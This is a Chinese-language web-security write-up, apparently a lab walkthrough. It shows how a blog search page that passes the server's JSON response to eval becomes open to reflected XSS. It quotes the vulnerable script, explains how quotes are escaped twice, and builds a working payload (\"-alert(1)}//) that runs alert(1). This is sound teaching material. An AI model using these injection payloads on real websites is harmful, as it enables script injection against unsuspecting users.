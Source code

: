 ### 接收器为 eval

```html
<!-- 访问主页有如下表单，点击 submit，会发送 /?search=用户输入 的请求包-->
<section class=search>
  <form action=/ method=GET>
  <input type=text placeholder='Search the blog...' name=search>
  <button type=submit class=button>Search</button>
  </form>
</section>
```

```js
// 访问 /?search=nihao 页面会引入 /resources/js/searchResults.js 脚本。
// 页面也通过如下方式调用 searchResults.js 的函数：<script>search('search-results')</script>

// /resources/js/searchResults.js 脚本内容如下。

function search(path) {
    var xhr = new XMLHttpRequest();
    // 定义回调函数，看样子要用 js 发送请求包。
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            // 高敏感内容：this.responseText 字符串作为 js 代码进行解析。
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    // 向服务器发送请求包，为 path + 参数，参数是 /?search=nihao，path 是 search-results，总的来说发送如下数据包：
    // get search-results?search=nihao
    xhr.open("GET", path + window.location.search);
    xhr.send();

    // 将服务器返回的数据展示。
    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm;	// 将返回的 json 格式数据中的 searchTerm 赋值到 searchTerm 变量
        var searchResults = searchResultsObj.results;	// 将返回的 json 格式数据中的 results 赋值到 searchResults 变量

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)

        for (var i = 0; i < searchResults.length; ++i)
        {
            var searchResult = searchResults[i];
            if (searchResult.id) {
                var blogLink = document.createElement("a");
                blogLink.setAttribute("href", "/post?postId=" + searchResult.id);

                if (searchResult.headerImage) {
                    var headerImage = document.createElement("img");
                    headerImage.setAttribute("src", "/image/" + searchResult.headerImage);
                    blogLink.appendChild(headerImage);
                }

                blogList.appendChild(blogLink);
            }

            blogList.innerHTML += "<br/>";

            if (searchResult.title) {
                var title = document.createElement("h2");
                title.innerText = searchResult.title;
                blogList.appendChild(title);
            }

            if (searchResult.summary) {
                var summary = document.createElement("p");
                summary.innerText = searchResult.summary;
                blogList.appendChild(summary);
            }

            if (searchResult.id) {
                var viewPostButton = document.createElement("a");
                viewPostButton.setAttribute("class", "button is-small");
                viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);
                viewPostButton.innerText = "View post";
            }
        }

        var linkback = document.createElement("div");
        linkback.setAttribute("class", "is-linkback");
        var backToBlog = document.createElement("a");
        backToBlog.setAttribute("href", "/");
        backToBlog.innerText = "Back to Blog";
        linkback.appendChild(backToBlog);
        blogList.appendChild(linkback);
    }
}
```

![image-20250526153706317](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250526153706317.png)

```js
# 如上图所示，返回了 json 格式数据： {"results":[],"searchTerm":"nihao"}
# js 代码对 json 数据的敏感操作：将返回的数据作为 js 代码执行（eval 函数）

# 也就是说，只要返回的数据中存在没有被单双引号包裹的 js 代码，就能造成 xss。
```

eval 函数支持如下表达式："" - alert(1)

- alert(1) 会执行弹窗，但此时 alert(1) 的返回值是 undefined。
- ""（空字符串）会被转换为数字 0。

- 0 - undefined 的计算结果是 NaN。

这个表达式可以存在于 json 格式的数据，如下：

```
{"results":[],"searchTerm":""-alert(1)}

# searchTerm 的值为 ""-alert(1)
```

但是 json 格式的数据传入表达式必须有参数接收，否则将被解析为代码块：

```
# 会弹窗，被视为 json 数据。
eval('var a={"results":[],"searchTerm":""-alert(1)}');

# 不会弹窗，{}被视为代码块。
# 在代码块中，results: [] 和 searchTerm: ... 会被视为语法错误的标签（labels），导致解析失败。
eval('{"results":[],"searchTerm":""-alert(1)}');
```

```
# 这是原本返回的数据。
{"results":[],"searchTerm":"nihao"}

# 需要控制 searchTerm 的输入构造目标如下的 payload，让 eval 解析。
var a = {"results":[],"searchTerm":""-alert(1)}

# 发现当 searchTerm："-alert(1)// 时可以完美构造如上 payload。
var a = {"results":[],"searchTerm":""-alert(1)}//"}
									   		   ^^^^
									   		   被抛弃
var a = {"results":[],"searchTerm":""-alert(1)}
```

### 调试 js

输入"-alert(1)}//

调试：

![image-20250526193505614](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250526193505614.png)

注意 responseText：

![image-20250526193517889](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250526193517889.png)

```
# "-alert(1)}// 没有弹窗
# responseText 值如下： 
"{\"results\":[],\"searchTerm\":\"\\\"-alert(1)}//\"}"

# 接下里我将解释 responseText 传递到 eval，以及 eval 如何解析它的流程。
```

第一次转义，是由 js 解析器进行的，转义后的字符是字符串的最终内容：

```
"{\"results\":[],\"searchTerm\":\"\\\"-alert(1)}//\"}"
转义成，最终字符：
{"results":[],"searchTerm":"\"-alert(1)}//"}
```

第二次转义，是由 eval 函数进行的：

```
{"results":[],"searchTerm":"\"-alert(1)}//"}
上述字符作为 js 解析的最终字符传给 eval：
{"results":[],"searchTerm":"\"-alert(1)}//"}
							 ^
eval 将上述箭头的双引号作为字符功能，其余双引号作为符号功能。

所以 "\"-alert(1) 由于符号符号功能丧失，不满足表达式 ""-alert(1)
```

根据这个规则：

```
# 输入 searchTerm 为 \"-alert(1)}//

responseText 的值如下：
"{\"results\":[],\"searchTerm\":\"\\\\"-alert(1)}//\"}"，js 解析后：
{"results":[],"searchTerm":"\\"-alert(1)}//"}，eval 解析：
满足 ""-alert(1) 表达式
```

![image-20250526193411474](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250526193411474.png)

正如上所示：

- 存在弹窗（图没截上）
- 输出的 searchTerm 为 ""-alert(1) 值为 NaN
